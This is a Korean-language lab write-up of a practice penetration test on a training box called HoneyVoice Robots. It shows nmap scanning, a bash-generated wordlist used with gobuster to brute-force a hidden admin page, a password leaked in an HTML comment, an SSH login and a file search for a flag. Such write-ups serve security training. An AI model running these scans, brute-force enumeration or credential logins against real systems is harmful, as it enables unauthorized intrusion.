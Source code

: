 # 레드라쿤 모의해킹 기초 실습방 (모의해킹 기초)
| 강의 영상 없이 진행

이전 RemoteWebAdm에서 서버가 너무 느리고 연결이 자꾸 끊기는 현상이 있었다. 이번에는 정보수집부터 조심스럽게 접근해서 모의해킹을 진행한다.

# 정보수집
nmap을 이용하여 재시도 횟수나, min-rate를 정하여 진행하니 빠르게 진행됬다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ nmap --top-ports 1000 --max-retries 1 --min-rate 1500 --open 10.10.250.54 -oA tcpAll
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:01 KST
Nmap scan report for 10.10.250.54
Host is up (0.28s latency).
Not shown: 662 closed tcp ports (conn-refused), 336 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ nmap -p 22,80 --max-retries 1 --min-rate 1500 -Pn -n --open -sV -sC 10.10.250.54 -oA tcpDetailed
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:02 KST
Nmap scan report for 10.10.250.54
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:27:95:ed:47:88:cb:69:fa:2e:19:c7:03:5f:b3:26 (RSA)
|   256 96:8e:85:5b:f6:bc:43:76:52:24:dd:72:4c:65:27:79 (ECDSA)
|_  256 22:87:05:24:cb:7a:3f:b2:a4:5e:e2:88:9a:69:b2:af (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HoneyVoice Secrets Server
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.02 seconds
```
22번 포트에서는 openssh 7.6p1 그리고 웹서버 80번 포트에서는 apache 2.4.29 버전을 사용한다. 
웹서버 타이틀 -> HoneyVoice Secrets entry
robots.txt 존재 확인 등등 네트워크 서비스 배너그래빙으로 웹 서버에 대한 추가적인 정보를 획득했다.

### Web(80)
![](1.png)
첫 웹사이트의 랜딩페이지이다. 뭔가 코드를 보여주고있는데 robots.txt 경로를 보여주고있다. 
페이지 소스에서는 별다른 정보를 얻지 못했다.

![](2.png)
`/robots.txt` 경로로 접속을 해보니 `index.php`만 Allow 가 되어잇고, /admin.html은 Disallow가 되어있다. 
`/admin.html`로 접속을 해본다!!


![](3.png)
가짜 관리자의 페이지 인것 같다. 진짜 관리자의 페이지는 `XXXX.hv.html` 파일에 있다고 한다. XXXX는 모두 숫자라고 힌트를 주고있다. 

```
# 박스의 어떤 포트들이 열려있나요?  (예. 445,3389,139,135) 
22,80

# 웹서버의 검색엔진 최적화 (SEO)에 쓰이도록 만들어졌지만, 잘못 설정될 경우 원치않은 디렉토리나 페이지를 유출할 수 있는 파일 이름은 뭔가요? 
robots.txt
```
# 취약점 진단
힌트를 보아 웹 서버가 가지고 있는 파일들을 봐야하는데 4자리의 숫자로 이루어져 있다고한다. 배시쉘 스크립트를 이용해 4자리 숫자로 된 리스트 파일을 하나 만들어 gobuster 툴을 이용해 디렉터리 브루트포싱을 하여 관리자 페이지를 획득한다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ vim loop4.bash

#!/bin/bash

for i in {1111..9999}; do
        echo ${i}.hv.html >> admin_page.txt;
done


┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ chmod +x loop4.bash; ./loop4.bash

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ cat admin_page.txt | head -10
1111.hv.html
1112.hv.html
1113.hv.html
1114.hv.html
1115.hv.html
1116.hv.html
1117.hv.html
1118.hv.html
1119.hv.html
1120.hv.html

┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ gobuster dir -u http://10.10.250.54/ -w admin_page.txt -t 10 | tee gobuser-admin
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.250.54/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                admin_page.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/7289.hv.html         (Status: 200) [Size: 653]
Progress: 8889 / 8890 (99.99%)
===============================================================
Finished
===============================================================

```
`/7289.hv.html` 파일의 경로를 획득했다. 웹서버에 경로를 추가해 들어간다.
![](4.png)
웹 페이지에서는 딱히 얻을 정보가 없지만 소스에서 주석으로 지워지지 않은 secret 유저의 계정 정보가 남아있는 것을 확인했다.
```
# 첫번째 플래그를 찾은 페이지는 뭐였나요? (예. /1337.hv.html) 
7289.hv.html

# secret 유저의 비밀번호는 뭔가요? 
HV-NOPERS-1337!!

# 첫번째 플래그는 뭔가요? 
GROOT{숨김숨김}
```

# 초기 침투
secret 유저의 계정정보를 파악했다. SSH 포트가 열려있는 것을 정보수집 때 파악했으니 SSH 접속을 통해서 초기 침투를 한다.
```
┌──(kali㉿kali)-[~/tryhackme/Robots]
└─$ ssh secret@10.10.250.54 
secret@10.10.250.54's password: <HV-NOPERS-1337!!>
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-206-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


110 updates can be applied immediately.
86 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sat Mar 11 18:27:08 2023 from 192.168.40.132
$ whoami; id ;ip a
secret
uid=1000(secret) gid=1000(secret) groups=1000(secret)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:16:c7:1b:74:d1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.250.54/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2967sec preferred_lft 2967sec
    inet6 fe80::16:c7ff:fe1b:74d1/64 scope link 
       valid_lft forever preferred_lft forever
$ 
$ bash
secret@honeyvoice-robots:~$

secret@honeyvoice-robots:~$ ls -al
total 40
drwxr-xr-x 4 secret secret 4096 Mar 11  2023 .
drwxr-xr-x 3 root   root   4096 Mar 11  2023 ..
lrwxrwxrwx 1 secret secret    9 Mar 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 secret secret  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 secret secret 3771 Apr  4  2018 .bashrc
drwx------ 2 secret secret 4096 Mar 11  2023 .cache
drwx------ 3 secret secret 4096 Mar 11  2023 .gnupg
-rw-r--r-- 1 secret secret  807 Apr  4  2018 .profile
-rwxrwxrwx 1 root   root     88 Mar 11  2023 .roothint.lmao
-rw------- 1 secret secret    1 Mar 11  2023 .viminfo
-rw------- 1 secret secret  118 Mar 11  2023 .Xauthority
secret@honeyvoice-robots:~$ cat .roothint.lmao 
how did you get in here? Bet you won't find the secret file though.  <  secrets.txt  > 
```
숨김 파일 되어있는 `.roothint.lmao` 파일을 열어보니 `secrets.txt` 파일에 대한 언급을 하고 있다.
```
secret@honeyvoice-robots:~$ find / -name "secrets.txt" 2> /dev/null
/etc/apache2/secrets.txt

secret@honeyvoice-robots:~$ cat /etc/apache2/secrets.txt 
GROOT{숨김숨김}
```

task를 풀기 위한 모든 정보를 얻었으니 여기서 끝!

# 취약점
1. 랜딩 페이지에 노출되어있는 robots.txt 파일의 경로 및 파일
2. `/7289.hv.html` 페이지 소스에 주석으로 되어있는 secret 유저의 계정 정보

